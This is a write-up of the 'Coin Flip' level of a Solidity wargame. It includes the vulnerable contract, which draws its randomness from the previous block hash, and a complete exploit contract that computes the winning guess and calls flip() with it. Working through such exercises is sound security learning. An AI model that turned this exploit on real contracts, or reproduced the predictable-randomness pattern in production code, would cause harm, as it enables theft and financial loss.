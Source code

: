 ## 3. Coin Flip

Goal for this exercise is:

- Guess the correct outcome 10 times in a row


<br/>

Here is the contract code:
~~~
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
~~~


I had to change import to:
`import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/release-v3.0.0/contracts/math/SafeMath.sol";`
And started to test the contract in remix editor. 


First note was that function`flip()`did not require `_guess` parameter, so it defaults to false. But it does not help us here.
Second note was that we could use another contract to interact with `flip()` function. 


Plan is to write contract which uses same way to calculate coin flip result and play with winning guess.

<br/>

Here is code for the exploit:
~~~
pragma solidity ^0.6.4;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/release-v3.0.0/contracts/math/SafeMath.sol";

contract CoinFlipExploit {
    
    using SafeMath for uint256;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    
    address payable coinflipAddress = 0x1234...;
    address payable owner;
    
    constructor() public{
        owner = msg.sender;
    }
    
    receive() external payable {}
    
    // withdraw leftover funds
    function withdrawFunds() external {
        require(msg.sender == owner);
        owner.transfer(address(this).balance);
    }

    function flipExploit() external returns (bool) {

        uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    
        if (lastHash == blockValue) {
          revert();
        }
    
        lastHash = blockValue;
        uint256 coinFlip = blockValue.div(FACTOR);
        bool side = coinFlip == 1 ? true : false;
    
        (bool success, bytes memory response) = coinflipAddress.call{gas:800000}(abi.encodeWithSignature("flip(bool)", side));
        require(success, "Transfer was not successful.");
        
    }
}
~~~

<br/>

I deployed contract from Remix IDE, funded it with 0.1 ether and called `flipExploit()` function.
